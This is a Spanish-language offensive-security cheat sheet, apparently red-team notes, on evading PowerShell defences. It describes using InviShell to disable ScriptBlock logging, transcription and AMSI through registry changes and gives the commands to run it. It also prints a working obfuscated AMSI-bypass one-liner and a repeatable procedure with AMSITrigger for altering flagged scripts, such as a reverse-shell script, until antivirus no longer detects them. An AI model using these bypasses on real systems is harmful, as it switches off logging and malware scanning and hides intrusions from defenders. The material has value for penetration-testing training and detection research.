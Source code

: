 InviShell elude todas las funciones de seguridad de Powershell (ScriptBlock logging, Module logging, Transcription, AMSI)

``RunWithRegistryNonAdmin.bat`` modifica el registro HKCU que es solo para el usuario actual a diferencia de ``RunWithPathAsAdmin.bat`` que modifica la entrada del registro HKLM que está a nivel de máquina. La modificación de registros a nivel de máquina tiene muchas más reglas de detección que a nivel de usuario.

``RunWithRegistryNonAdmin.bat`` añade registros y una ruta a InShellProf.dll para que cada vez que se carga powershell también se cargue el ``dll``.

- Tener en cuenta que los binarios se comportan mal con InviShell. Por ejemplo, tendrás problemas si ejecutas Rubeus.exe luego de haber ejecutado InviShell en la misma consola.
- Invishell se utiliza para desactivar evitar el registro. Si lo utiliza entonces no hay transcripción Powershell.

```
### Sin privilegios admins (recomendado)
### Las modificaciones se aplican al usuario actual
RunWithRegistryNonAdmin.bat

### Con privilegios admin (no tan recomendado)
### Las modificaciones se aplican en todo el sistema
RunWithPathAsAdmin.bat

### Escribir "exit" para eliminar las entradas de registro modificadas
```

¿Cómo llevar estos archivos al equipo? Una opción es escribir los ``.bat`` o ``.dll``
## Bypassing AV Signatures for PowerShell

### Cargar scripts en memoria y evitar la detección usando AMSI bypass

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### AMSITrigger

Herramienta para identificar la parte exacta de un script que es detectado por AMSI.

```
### AMSITrigger
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
```

Los pasos para evitar la detección basada en firmas:
1) Escanear usando AMSITrigger
2) Modifique el fragmento de código detectado (Invertir cadenas, cambiar nombre de variables)
3) Vuelva a escanear con AMSITrigger
4) Repita los pasos 2 y 3 hasta que obtenga un resultado como ``AMSI_RESULT_NOT_DETECTED`` o en blanco
### DefenderCheck
